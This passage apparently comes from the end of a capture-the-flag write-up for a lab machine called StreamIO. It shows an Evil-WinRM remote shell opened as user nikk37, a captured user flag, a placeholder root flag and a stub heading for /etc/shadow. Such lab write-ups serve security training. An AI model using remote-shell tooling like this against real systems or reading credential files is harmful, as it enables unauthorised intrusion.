Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\nikk37\Documents> whoami
streamio\nikk37
```


# Trophy


>[!success]
>**User.txt**
>34b0489e1e9e9202a990dd29bed66edf

>[!fail]
>**Root.txt**
>rootme

**/etc/shadow**

```bash
shadow
```